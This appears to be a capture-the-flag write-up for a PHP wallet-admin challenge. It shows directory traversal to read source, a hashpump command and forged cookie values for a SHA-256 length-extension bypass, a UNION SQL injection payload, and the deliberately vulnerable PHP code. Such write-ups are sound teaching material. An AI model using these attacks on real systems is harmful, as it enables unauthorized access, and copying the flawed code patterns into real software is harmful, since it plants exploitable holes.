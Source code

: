 ## Step 1 - Directory Traversal

This is what the site looks like:

![Home Page](http://i.imgur.com/sZVdEiP.png)

The admin page doesn't have a login option, it just says "Sorry, not authorized."

![Admin page](http://i.imgur.com/UDhGLnJ.png)

The page also set two cookies. One named *hsh*, and one named *auth*. *auth* is a URL encoded serialized PHP boolean `b:0;`. Setting *auth* to `b:1;` does nothing. (in fact it just gets reset)

**auth:** `b%3A0%3B`

*hsh* is a hash with a length of 64 characters. sha-256 is widely used and fits that description, so it's a safe bet. This cookie is probably protecting *auth*.

**hsh:** `ef16c2bffbcf0b7567217f292f9c2a9a50885e01e002fa34db34c0bb916ed5c3`

Visiting other pages on the site exposes a directory traversal vulnerability.

![Traversal Vuln](http://i.imgur.com/R9jiqHe.png)

Substituting *index* for *admin.php* exposes the full admin.php source code.

![admin.php traversed](http://i.imgur.com/ERvPwIY.png)

The unrendered source looks like this:

	<?php
		require_once("secrets.php");
		$auth = false;
		if (isset($_COOKIE["auth"])) {
			$auth = unserialize($_COOKIE["auth"]);
			$hsh = $_COOKIE["hsh"];
			if ($hsh !== hash("sha256", $SECRET . strrev($_COOKIE["auth"]))) {
				$auth = false;
			}
		}
    	else {
			$auth = false;
			$s = serialize($auth);
			setcookie("auth", $s);
			setcookie("hsh", hash("sha256", $SECRET . strrev($s)));
		}
		if ($auth) {
			if (isset($_GET['query'])) {
        		$link = mysql_connect('localhost', $SQL_USER, $SQL_PASSWORD) or die('Could not connect: ' . mysql_error());
        		mysql_select_db($SQL_DATABASE) or die('Could not select database');
        		$qstr = mysql_real_escape_string($_GET['query']);
        		$query = "SELECT amount FROM plaidcoin_wallets WHERE id=$qstr";
        		$result = mysql_query($query) or die('Query failed: ' . mysql_error());
        		$line = mysql_fetch_array($result, MYSQL_ASSOC);
        		foreach ($line as $col_value) {
          			echo "Wallet " . $_GET['query'] . " contains " . $col_value . " coins.";
        		}
			} else {
         		echo "<html><head><title>MtPOX Admin Page</title></head>			<body>Welcome to the admin panel!<br /><br /><form name='input' action='admin.php' method='get'>Wallet ID: <input type='text' name='query'><input type='submit' value='Submit Query'></form></body></html>";
			}
    	}
    	else echo "Sorry, not authorized.";
	?>

Taking a closer look at the source code confirms some previous suspicions and reveals how the *auth* cookie is created and checked. Retrieving the contents of *secrets.php* should be enough to forge new cookies!

![forbidden sauce](http://i.imgur.com/wmLNBDA.png)

What the hell! The source code of *secrets.php* isn't visible. The source of index.php reveals that The Plague had actually taken *some* precautionary measures to keep his secrets hidden. 

	if (strstr($_GET['page'], "secrets")) { echo "ERROR!\n"; }

Time to get creative.

## Step 2 - Hash Length Extension

There are several factors that have come into play here that make HLE possible.

1. SHA-256 is vulnerable to hash length extension attacks.

2. PHP unserialization will accept a valid input and ignore any data after the `;`. This means the *auth* cookie will always work as long as it starts with `b:0;` or `b:1;`.

3. The string at the end of the hashed text is reversed. This means any backwards data added to *hsh* will be at the beginning of the *auth* cookie.

4. The length of the key is known, or enough time is available to bruteforce it. (A little recon on the *about* page reveals the length to be 8)

Recommended reading:

* https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks 
* http://en.wikipedia.org/wiki/Length\_extension\_attack

[hashpump](https://github.com/bwall/HashPump) can do the heavy lifting for us. 

	$ ./hashpump -s "ef16c2bffbcf0b7567217f292f9c2a9a50885e01e002fa34db34c0bb916ed5c3" -d ";0:b" -a ";1:b" -k 8
    
    967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1

	;0:b\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00`;1:b

The hash that hashpump outputs is the new *hsh*, and the second string is the new, reversed, hex-encoded *auth* string, which needs to be turned the right way around and URL-encoded.

This is what the *auth* cookie looks like the right way around, and properly encoded.
	b%3A1%3B`%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3A0%3B
    
Plug these in for the cookie values and suddenly *admin.php* looks like this:

![Admin Panel](http://i.imgur.com/DZhJJmz.png)

The only working ID is 0. All others return a blank page.

![1333337 coins](http://i.imgur.com/2QJzuD0.png)

## Step 3 - SQL Injection

At this point it makes sense to go back and look at *admin.php* some more. mysql_real_escape_strings() won't help you here, Mr. The Plague. In fact, just submitting the form without putting anything in the text box returns a SQL error.

	Query failed: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1
    
The input box expects a numerical ID, but what goes after the ID is up to the creative problem solver.

From this point on, finding the key just takes some probing. The final query is quite simple:

	1 UNION SELECT id FROM plaidcoin_wallets
    
![Win.](http://i.imgur.com/Im7rPxl.png)
